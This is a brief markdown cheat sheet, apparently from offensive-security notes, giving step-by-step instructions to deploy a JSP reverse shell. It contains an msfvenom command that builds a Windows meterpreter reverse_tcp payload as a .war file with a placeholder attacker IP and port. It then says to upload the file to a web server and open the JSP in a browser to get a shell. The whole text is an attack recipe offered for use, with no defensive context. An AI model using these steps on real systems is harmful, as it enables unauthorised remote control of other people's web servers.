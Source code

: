 # JSP Reverse shell deployment

#### 1) Create a .war file with msfvenom: msfvenom -p windows/meterpreter/reverse_tcp LHOST=MY_IP LPORT=PORT -f war > pwn.war

#### 2) Unzip war file: unzip pwn.war

#### 3) Upload .war file to webserver

#### 4) Call the jsp file with the browser

#### 5) BOOM!
